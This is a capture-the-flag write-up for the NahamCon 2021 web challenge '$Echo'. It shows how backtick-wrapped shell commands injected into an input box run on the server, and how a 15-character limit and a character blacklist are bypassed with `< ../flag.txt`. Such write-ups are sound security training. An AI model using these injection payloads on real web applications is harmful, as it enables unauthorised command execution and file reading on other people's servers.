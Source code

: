 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2021 | $Echo Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2021
parent: nahamcon_2021
category: web
challenge: $Echo
tags: "web, rce"
---
```


<h1 class="heading card-title white-text">Nahamcon 2021</h1>

## $Echo

It is simple command injection
in the input box we can use ` characters 

```
`id`
```

all commands have to be enclosed in `` chars

now if we list files using
```
`ls`
``` 
we can see `index.php` when we 
```
`cat index.php`
```
we can see the code!
certain characters are `blacklisted`  we can only enter command less that `15` chars
but there is no `flag.txt` here, if we simply execute 
```
`ls ../`
```
then we can see flag.txt
```
`cat ../flag.txt`
```
fails because length of payload exceeds 15

payload to get flag : 

**linux redirection character! `<` is NOT blacklisted!**
```
`< ../flag.txt`
```

